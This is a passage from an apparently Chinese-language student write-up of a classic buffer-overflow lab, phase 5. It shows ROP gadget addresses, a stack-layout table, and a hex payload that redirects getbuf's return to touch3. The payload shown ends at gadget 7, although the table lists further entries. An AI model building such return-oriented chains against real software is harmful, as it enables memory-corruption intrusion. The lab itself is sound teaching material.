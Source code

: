 ```
	movl    %edx,%ecx
	ret

gadget 6:    # 0x401a13
	movl    %ecx,%esi
# 以上,将偏移量传给%esi.我本来是要相减的,但突然想起来movl会将高位全部设置成0,行不通了,只能向上方偏移.

gadget 7:    # 0x4019d6
	lea    (%rdi,%rsi,1),%rax
	ret

gadget 8:    # 0x4019a2
	movq    %rax,%rdi
	ret
# 以上,将字符串指针传递给%rdi
 touch3 address:0x4018fa
```
覆写 `getbuf`函数的返回地址为gadget address 1,之上为gadget address 2,以此类推,
栈空间应该为

|栈空间|填充|备注|
|:---:|:---:|:---:|
|(launch函数栈帧)| |
|0x35 0x39...|cookie string|
|0x4018fa|touch3 address|
|0x4019a2|gadget address 8|
|0x4019d6|gadget address 7|
|0x401a13|gadget address 6|
|0x401a34|gadget address 5|
|0x4019dd|gadget address 4|
|0x48|0x48|偏移量
|0x4019ab|gadget address 3|
|0x4019a2|gadget address 2|执行gadget 1时的%rsp
|(test函数栈帧)||
|0x401a06|gadget address 1|
|(getbuff函数栈帧)||
|40字节buffer|任意填充字符|

根据以上设计,填充的字符串为
```
/* Phase5 */
ff ff ff ff ff ff ff ff ff ff                               
ff ff ff ff ff ff ff ff ff ff 
ff ff ff ff ff ff ff ff ff ff    
ff ff ff ff ff ff ff ff ff ff
/* 以上共40字节 */
06 1a 40 00 00 00 00 00 /* gadget address 1 */
a2 19 40 00 00 00 00 00 /* gadget address 2 */
ab 19 40 00 00 00 00 00 /* gadget address 3 */
48 00 00 00 00 00 00 00 /* 偏移量:8*9 */
dd 19 40 00 00 00 00 00 /* gadget address 4 */
34 1a 40 00 00 00 00 00 /* gadget address 5 */
13 1a 40 00 00 00 00 00 /* gadget address 6 */
d6 19 40 00 00 00 00 00 /* gadget address 7 */
```
